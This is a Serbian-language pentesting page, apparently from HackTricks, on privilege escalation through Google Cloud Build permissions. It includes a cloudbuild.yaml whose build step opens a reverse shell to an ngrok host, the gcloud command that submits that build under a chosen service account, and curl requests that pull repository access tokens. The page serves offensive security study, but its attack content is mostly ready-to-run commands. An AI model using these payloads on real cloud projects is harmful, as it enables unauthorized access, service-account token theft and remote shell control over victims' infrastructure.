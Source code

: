 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Za više informacija o Cloud Build, proverite:

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`, `iam.serviceAccounts.actAs`

Sa ovom dozvolom možete **podneti cloud build**. Cloudbuild mašina će imati u svom fajl sistemu po **defaultu token cloudbuild Service Account-a**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Međutim, možete **navesti bilo koji servisni nalog unutar projekta** u cloudbuild konfiguraciji.\
Stoga, možete jednostavno naterati mašinu da exfiltrira token na vaš server ili **dobiti reverznu školjku unutar nje i dobiti token** (fajl koji sadrži token može se promeniti).

#### Direktna eksploatacija putem gcloud CLI

1- Kreirajte `cloudbuild.yaml` i izmenite sa podacima vašeg listener-a.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14965 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
2- Učitajte jednostavnu gradnju bez izvora, yaml datoteku i odredite SA koji će se koristiti za gradnju:
```bash
gcloud builds submit --no-source --config="./cloudbuild.yaml" --service-account="projects/<PROJECT>/serviceAccounts/<SERVICE_ACCOUNT_ID>@<PROJECT_ID>.iam.gserviceaccount.com
```
#### Korišćenje python gcloud biblioteke
Možete pronaći originalni exploit skript [**ovde na GitHub-u**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (ali lokacija sa koje uzima token nije radila za mene). Stoga, proverite skript za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) i python skript za dobijanje reverzne ljuske unutar cloudbuild mašine i [**ukrasti je ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (u kodu možete pronaći kako da navedete druge servisne naloge)**.**

Za detaljnije objašnjenje, posetite [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)


### `cloudbuild.repositories.accessReadToken`

Sa ovom dozvolom korisnik može dobiti **token za čitanje pristupa** koji se koristi za pristup repozitorijumu:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Sa ovom dozvolom korisnik može dobiti **token za čitanje i pisanje** koji se koristi za pristup repozitorijumu:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Sa ovom dozvolom možete **dobiti repozitorijume kojima konekcija ima pristup:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
